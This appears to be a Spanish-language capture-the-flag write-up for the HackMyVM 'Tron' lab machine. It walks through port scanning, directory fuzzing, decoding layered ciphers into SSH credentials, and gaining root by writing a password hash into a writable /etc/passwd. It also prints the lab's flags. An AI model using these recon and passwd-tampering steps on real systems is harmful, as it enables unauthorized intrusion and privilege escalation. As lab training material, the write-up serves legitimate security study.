 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Tron HackMyVM (Easy- Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-10 02:16 EDT
Nmap scan report for 192.168.1.172
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f:ed:64:93:84:b5:b2:e8:af:5a:0e:6f:52:af:4b:48 (RSA)
|   256 3d:df:6f:02:13:9e:15:f8:51:94:30:f8:45:e3:f2:93 (ECDSA)
|_  256 2f:f4:af:e1:f4:c4:a5:3b:50:bb:e5:b9:2a:9f:39:de (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Master Control Program
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:8B:31:4C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds
```

Veremos que hay un puerto `80` levantado, por lo que si entramos en el veremos una pagina normal y corriente, vamos a realizar un poco de `fuzzing` para ver que podemos ver.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.172/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 309]
/.html                (Status: 403) [Size: 278]
/img                  (Status: 200) [Size: 936]
/manual               (Status: 200) [Size: 626]
/robots.txt           (Status: 200) [Size: 623]
/font                 (Status: 200) [Size: 935]
/.html                (Status: 403) [Size: 278]
/MCP                  (Status: 200) [Size: 1140]
/server-status        (Status: 403) [Size: 278]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos de todo esto una ruta bastante interesante llamada `/MCP` vamos a probar a entrar dentro de la misma.

Si entramos dentro veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay varios archivos, pero si nos descargamos el archivo llamado `tron.txt` veremos lo siguiente:

```
MASTER CONTROL PROGRAM
----------------------

Ram:
Do you believe in the Users?

Crom:
Sure I do! If I didn't have a User, than who wrote me? 


KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==
```

Vemos que hay un codigo cifrado, por lo que vamos a intentar decodificarlo de la siguiente forma:

```shell
echo "KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==" | base64 -d
```

Info:

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>++++++++++++.----.-----------.++++++++++++++++++++++++.--------------------.+++++++++++++.
```

Vemos que nos da otro codigo codificado que esta en formato `brainfuck` por lo que si lo decodificamos se quedara algo asi:

```
player
```

Vemos que sera un nombre de usuario, ahora si nos vamos a `terminalserver` -> `30513.txt` veremos esto:

```
substitute
--------------------------
plaintext
abcdefghijklmnopqrstuvwxyz

ciphertext
zyxwvutsrqponmlkjihgfedcba
--------------------------
```

Vemos que esto puede ser como un codigo para poder decodificar algo que este por ahi, por lo que vamos a investigar un poco.

Buscando un rato, si vamos a la pagina principal e inspeccionamos el codigo veremos lo siguiente:

```html
<!-- kzhh:SbWP9q94ZtE9qD  -->
```

Vamos a utilizar esto para aplicar la decodificacion de sustitucion con la palabra que encontramos a ver que vemos:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado y la contraseña de `player` es `SyWP9j94ZgE9jD` por lo que vamos a conetcarnos por `SSH`.

### SSH

```shell
ssh player@<IP>
```

Metemos como contraseña `SyWP9j94ZgE9jD` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVMuserplayer2021
```

## Escalate Privileges

Despues de buscar un rato si hacemos lo siguiente:

```shell
find /etc -type f -writable 2>/dev/null
```

Info:

```
/etc/passwd
```

Veremos que podemos sobreescribir el archivo `passwd`, por lo que podremos hacer lo siguiente:

Antes codificaremos la contraseña para que la admita en el archivo `passwd`.

```shell
openssl passwd 1234
```

Info:

```
$1$YoLbOiy7$eDZyWwzWVII2TQyt3qjTH.
```

Ahora en la maquina victima vamos a establecerle dicha contraseña codificada a `root`.

```shell
nano /etc/passwd

#Dentro del nano
root:x:0:0:root:/root:/bin/bash #Pasamos de esto
root:$1$YoLbOiy7$eDZyWwzWVII2TQyt3qjTH.:0:0:root:/root:/bin/bash #<--------------- Ha esto
```

Lo guardamos y realizamos lo siguiente:

```shell
su root
```

Metemos como contraseña `1234` y veremos que seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMVMMasterControlProgram2021
```
